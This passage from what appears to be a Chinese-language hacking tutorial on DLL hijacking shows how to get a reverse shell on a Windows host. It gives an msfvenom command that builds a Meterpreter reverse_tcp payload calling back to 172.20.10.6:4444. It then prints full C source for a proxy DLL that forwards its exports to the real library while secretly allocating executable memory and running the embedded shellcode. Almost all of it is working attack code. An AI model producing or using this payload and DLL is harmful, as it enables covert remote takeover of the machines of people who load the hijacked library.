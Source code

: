 然后将dll放在exe同一目录，已经劫持成功了：

![](https://gitee.com/fuli009/images/raw/master/public/20210825172520.png)

## 0x06 使用DLL劫持上线主机

### dll加载shellcode上线

生成shellcode：

  * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.20.10.6 -b '\xfc\xe8' lport=4444 -f c

![](https://gitee.com/fuli009/images/raw/master/public/20210825172523.png)

生成dll：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"//开始转发，将函数方法转发//导出函数#pragma comment(linker,"/EXPORT:add=testdll.add,@1")#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")//入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){    if (dwReason == DLL_PROCESS_ATTACH)    {        DisableThreadLibraryCalls(hModule);        unsigned char buf[] =            "\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48\x8d\x05\xef\xff"            "\xff\xff\x48\xbb\x66\x9a\x22\x85\x4f\xee\xee\xb7\x48\x31\x58"            "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x9a\xd2\xa1\x61\xbf\x06"            "\x22\xb7\x66\x9a\x63\xd4\x0e\xbe\xbc\xe6\x2e\xab\xf0\xd3\x2a"            "\xa6\x65\xe5\x06\xd2\xa9\xd7\x57\xa6\x65\xe5\x46\xd7\x13\x4c"            "\x07\x65\x9c\xe7\x2e\x95\x95\xcf\x05\xa6\xdf\x77\xca\xa6\x43"            "\xf9\x4d\xc2\xce\xf6\xa7\x53\x2f\xc4\x4e\x2f\x0c\x5a\x34\xdb"            "\x73\xcd\xc4\xbc\xce\x3c\x24\xa6\x6a\x84\x9f\x88\x6f\xcf\x7e"            "\x91\x20\x8a\xca\x9c\xee\xb7\x66\x11\xa2\x0d\x4f\xee\xee\xff"            "\xe3\x5a\x56\xe2\x07\xef\x3e\x3c\x2e\x82\x72\xc1\xc4\xae\xce"            "\xfe\x67\x4a\xc1\xd3\x07\x11\x27\xf6\xed\xae\xaa\xc8\x7e\x27"            "\xa6\xb6\xb0\xd2\x13\x45\xe3\xaf\x2f\x7e\x6b\xdb\x23\x44\x77"            "\x0e\x9b\x46\x2a\x99\x6e\xa1\x47\xab\xd7\x66\x13\x42\x7a\xc1"            "\xc4\xae\xca\xfe\x67\x4a\x44\xc4\xc4\xe2\xa6\xf3\xed\xda\x3e"            "\xcc\x4e\x3e\xaf\x3c\x62\x12\x63\xdd\x07\xef\x3e\xf6\x3e\xc4"            "\x7b\xdf\x0e\xb6\xaf\xee\x27\xc0\x6a\x06\xa3\xce\xaf\xe5\x99"            "\x7a\x7a\xc4\x16\xb4\xa6\x3c\x74\x73\x69\x7a\xb0\x11\xb3\xfe"            "\xd8\xed\x51\xb7\x10\xdd\xdc\xb7\x66\xdb\x74\xcc\xc6\x08\xa6"            "\x36\x8a\x3a\x23\x85\x4f\xa7\x67\x52\x2f\x26\x20\x85\x5e\xb2"            "\x42\xa3\x6c\x9c\x63\xd1\x06\x67\x0a\xfb\xef\x6b\x63\x3f\x03"            "\x99\xc8\xb0\x99\x4f\x6e\x0c\xa5\x86\xef\xb6\x66\x9a\x7b\xc4"            "\xf5\xc7\x6e\xdc\x66\x65\xf7\xef\x45\xaf\xb0\xe7\x36\xd7\x13"            "\x4c\x02\xdf\x2e\xff\x99\x5a\x6a\x0c\x8d\xa6\x11\x77\x2e\x13"            "\xe3\xc4\xf5\x04\xe1\x68\x86\x65\xf7\xcd\xc6\x29\x84\xa7\x27"            "\xc2\x6e\x0c\xad\xa6\x67\x4e\x27\x20\xbb\x20\x3b\x8f\x11\x62"            "\xe3\x5a\x56\x8f\x06\x11\x20\xc2\x83\x72\xb1\x85\x4f\xee\xa6"            "\x34\x8a\x8a\x6a\x0c\xad\xa3\xdf\x7e\x0c\x9e\x63\xdd\x07\x67"            "\x17\xf6\xdc\x98\xfb\x4d\x10\x11\x3b\x34\x9e\x9a\x5c\xd0\x07"            "\x6d\x2a\x97\x38\x13\xd4\xef\x0f\xaf\xb7\xdf\x66\x8a\x22\x85"            "\x0e\xb6\xa6\x3e\x94\xd2\x13\x4c\x0e\x54\xb6\x13\x35\x7f\xdd"            "\x50\x07\x67\x2d\xfe\xef\x5d\x6f\xb4\x86\xa7\x67\x47\x2e\x13"            "\xf8\xcd\xc6\x17\xaf\x0d\x64\x43\xea\xda\xb0\x3b\x6d\x4f\x66"            "\xe7\x0a\xdd\x0e\xb9\xb7\xdf\x66\xda\x22\x85\x0e\xb6\x84\xb7"            "\x3c\xdb\x98\x8e\x60\xe1\xde\x48\xb3\xcd\x7b\xc4\xf5\x9b\x80"            "\xfa\x07\x65\xf7\xcc\xb0\x20\x07\x8b\x99\x65\xdd\xcd\x4e\x2d"            "\xa6\x9e\xa0\xd2\xa7\x73\x3a\x5a\xaf\x48\x81\xc2\x48\x85\x16"            "\xa7\x29\x75\x96\x2f\x80\xd3\xb0\x3b\xee\xb7";        size_t size = sizeof(buf);        char* inject = (char*)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);        memcpy(inject, buf, size);        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)inject, 0, 0, 0);    }    else if (dwReason == DLL_PROCESS_DETACH)    {    }    return TRUE;}
